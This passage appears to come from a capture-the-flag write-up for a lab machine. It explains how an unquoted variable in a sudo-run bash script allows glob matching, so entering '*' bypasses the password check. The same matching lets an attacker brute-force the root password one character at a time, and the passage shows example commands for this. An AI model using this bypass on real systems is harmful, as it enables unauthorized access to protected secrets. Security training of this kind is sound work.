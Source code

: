 Looking at the script, we can see a vulnerability in the `if [[ $content == $user_input ]]; then` line, as the `$user_input` parameter which is read from the user is not quoted. This allows us to use **glob matching** in the comparison as such:

```bash
$ user_input="*"; if [[ "password" == "$user_input" ]]; then echo "TRUE"; else echo "FALSE"; fi
FALSE

$ user_input="*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
TRUE
```

Exploiting this by entering `*` as our input, we are able to bypass the check and access the contents of `/root/secrets`, though it provides no useful information.

```console
hansolo@contrabando:~$ sudo /usr/bin/bash /usr/bin/vault
Enter the required input: *
Password matched!
1. Lightsaber Colors: Lightsabers in Star Wars can come in various colors, and the color often signifies the Jedi's role or affiliation. For ...
```

But simply bypassing the check is not all we can do. In fact, using the **glob matching**, we can also brute-force the value of the `$content` parameter, which is read from `/root/password`, by looping through all characters and prepending them to `*` and checking the behavior of the script similar to a process like this:

```console
$ user_input="a*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
FALSE

$ user_input="b*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
FALSE

...

$ user_input="p*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
TRUE

$ user_input="pa*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
TRUE

$ user_input="paa*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
FALSE

$ user_input="pab*"; if [[ "password" == $user_input ]]; then echo "TRUE"; else echo "FALSE"; fi
FALSE
...
```

We can automate this process with a **Python** script that loops through all characters prepended to `*` and checks if the output from the script includes `Password matched!`. If it does, we know we have discovered a character from the beginning of the password and can move on to the next character.
